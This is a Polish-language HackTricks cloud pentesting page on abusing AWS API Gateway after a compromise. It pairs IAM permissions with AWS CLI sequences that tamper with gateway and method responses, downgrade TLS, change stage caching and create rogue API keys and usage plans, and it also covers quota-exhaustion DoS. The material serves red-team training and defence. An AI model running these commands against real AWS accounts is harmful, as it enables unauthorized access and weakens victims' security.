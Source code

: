 # AWS - Wykorzystanie API Gateway po włamaniu

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## API Gateway

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Dostęp do nieujawnionych interfejsów API

Możesz utworzyć punkt końcowy w [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) z usługą com.amazonaws.us-east-1.execute-api, ujawnić punkt końcowy w sieci, do której masz dostęp (potencjalnie za pośrednictwem maszyny EC2) i przypisać grupę zabezpieczeń, która zezwala na wszystkie połączenia.\
Następnie, z maszyny EC2 będziesz mógł uzyskać dostęp do punktu końcowego i tym samym wywołać API bramy, które wcześniej nie było ujawnione.

### Planowanie DoS

W sekcji **Wyliczanie** możesz zobaczyć, jak **uzyskać plan wykorzystania** kluczy. Jeśli masz klucz i jest on **ograniczony** do X użycia **na miesiąc**, możesz go **po prostu użyć i spowodować DoS**.

Klucz **API** musi być **dołączony** wewnątrz nagłówka **HTTP** o nazwie **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` może **modyfikować istniejące odpowiedzi bramy, aby zawierały niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają poufne informacje lub wykonują złośliwe skrypty**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalne skutki**: Wyciek poufnych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów interfejsu API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateStage` i `apigateway:CreateDeployment` może **modyfikować istniejący etap bramy API, aby przekierować ruch na inny etap lub zmienić ustawienia buforowania w celu uzyskania nieautoryzowanego dostępu do danych w buforze**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalne skutki**: Nieautoryzowany dostęp do danych w pamięci podręcznej, zakłócenie lub przechwycenie ruchu API.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` może **modyfikować odpowiedzi metody istniejącego API Gateway REST API, aby zawierały niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają poufne informacje lub wykonują złośliwe skrypty**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalne skutki**: Wyciek poufnych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów interfejsu API.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` może **zmodyfikować ustawienia interfejsu API Gateway REST w celu wyłączenia logowania lub zmiany minimalnej wersji TLS, co potencjalnie osłabia bezpieczeństwo interfejsu API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalne skutki**: Osłabienie bezpieczeństwa interfejsu API, potencjalnie umożliwiające nieautoryzowany dostęp lub ujawnienie poufnych informacji.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Atakujący posiadający uprawnienia `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` może **tworzyć nowe klucze API, przypisywać je do planów wykorzystania, a następnie używać tych kluczy do nieautoryzowanego dostępu do interfejsów API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencjalne skutki**: Nieautoryzowany dostęp do zasobów interfejsu API, obejście kontroli bezpieczeństwa.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) **i** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **repozytoriów na GitHubie**.

</details>
